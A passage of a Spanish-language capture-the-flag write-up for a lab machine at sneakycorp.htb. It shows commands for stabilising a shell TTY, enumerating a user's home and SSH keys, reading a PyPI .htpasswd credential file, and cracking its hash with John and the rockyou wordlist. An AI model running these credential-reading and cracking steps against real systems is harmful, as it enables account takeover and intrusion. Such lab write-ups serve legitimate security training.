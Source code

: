 ### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```

### Descubrimiento de la maquina {-}

```bash
ls -l
cd /home
cd low
ls -la
cd .ssh
ls
cat authorized_keys
ps -fawwx
```

Vemos la flag pero no podemos leerla. Huele a que nos tenemos que convertir al usuario **low**. Tambien vemos un recurso **Pypi** con
un fichero de credenciales tipo `.htpasswd`

```cat
cat /var/www/pypi.sneakycorp.htb/.htpasswd
```

Vemos la contraseña del usuarion **pypi**. La copiamos en la maquina de atacante y tratamos de romperla con **John**

Por ultimo se puede ver un nuevo subdominio llamado `pypi.sneakycorp.htb`, lo introduzimos en el `/etc/hosts`

### Crackeo con John {-}

Copiamos el contenido del fichero .htpasswd en un fichero llamado hash

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

Hemos podido crackear la contraseña del usuario pypi


### Descubrimiento de la configuration NGINX {-}
